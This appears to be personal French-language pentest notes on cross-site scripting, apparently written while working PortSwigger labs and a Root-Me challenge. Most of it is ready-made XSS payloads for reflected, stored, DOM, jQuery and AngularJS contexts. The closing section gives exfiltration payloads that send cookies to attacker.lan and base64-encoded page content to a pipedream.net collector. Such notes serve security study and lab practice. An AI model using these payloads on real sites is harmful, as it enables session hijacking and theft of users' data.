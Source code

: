 # XSS
1. Use SecList https://github.com/danielmiessler/SecLists/tree/master/Fuzzing to find more payload
2. Burp ressources: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
3. utiliser le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit j'usqu'a avoir des réponses 200 avec chars non-encodés
4. regarder dans le deugger du navigateur: "inecpect element" et onglet "source"

# Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, Il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

<script>alert(0)</script>

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

onready="alert(0)

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

'; alert(0); //

# types

## Reflected + Stored
<script>alert(0)</script>
<img src=1 onerror=alert(1)>

## DOM
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>

### jQuery + manipulation url
?returnUrl=javascript:alert(document.domain)

### AngularJS + ng-app attribute
{{constructor.constructor('alert(1)')()}}

### in xhr
\"-alert(1)}//

## POC depuis un iframe
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>

## custom ID (from malicious server)
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>

## REX

exemple paload pour vol de cookie (DOM based): 

```
test';document.location="https://attacker.lan?c="+document.cookie;'
```


Online et vol du contenu la page web:

```
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```
ou
```
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```

(payload rootme: http://challenge01.root-me.org:58008/page?user=<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">  )


